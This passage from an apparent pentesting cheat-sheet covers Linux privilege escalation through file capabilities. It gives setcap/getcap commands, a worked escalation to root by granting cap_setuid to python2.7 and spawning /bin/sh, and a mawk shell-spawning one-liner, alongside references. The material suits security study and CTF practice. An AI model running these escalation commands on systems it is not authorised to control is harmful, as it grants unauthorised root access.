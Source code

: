 ### Editing file capabilities

```bash
/usr/bin/setcap -r /bin/ping            # remove all capabilities
/usr/bin/setcap cap_net_raw+p /bin/ping # add specific capabilities
```

### Privilege escalation using file capabilities

The capability `=ep` means the binary has all capabilities.

```bash
$ getcap openssl /usr/bin/openssl 
openssl=ep
```

The following capabilities can also be used in order to upgrade your current privileges:

Read any file: `cap_dac_read_search`&#x20;

SUID: `cap_setuid+ep`

Example of privilege escalation with `cap_setuid+ep`

```bash
sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7
python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
id
#uid=0(root) gid=1000(zweilos)
```

## Misc

list user's sudo permissions: `sudo -l`

wildcard injection: \[NEED MORE HERE]

```bash
mawk 'BEGIN {system("/bin/sh")}'
```

## References

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) - @swisskyrepo
* [https://unix.stackexchange.com/questions/52108/how-to-create-sha512-password-hashes-on-command-line](https://unix.stackexchange.com/questions/52108/how-to-create-sha512-password-hashes-on-command-line)
* [https://linux-audit.com/linux-capabilities-101/](https://linux-audit.com/linux-capabilities-101/)
* [https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287)
* [https://gtfobins.github.io/](https://gtfobins.github.io/)
* [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)
* [https://touhidshaikh.com/blog/2018/04/sudo-ld\_preload-linux-privilege-escalation/](https://touhidshaikh.com/blog/2018/04/sudo-ld\_preload-linux-privilege-escalation/)
* [https://www.baeldung.com/linux/ld\_preload-trick-what-is](https://www.baeldung.com/linux/ld\_preload-trick-what-is)

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!
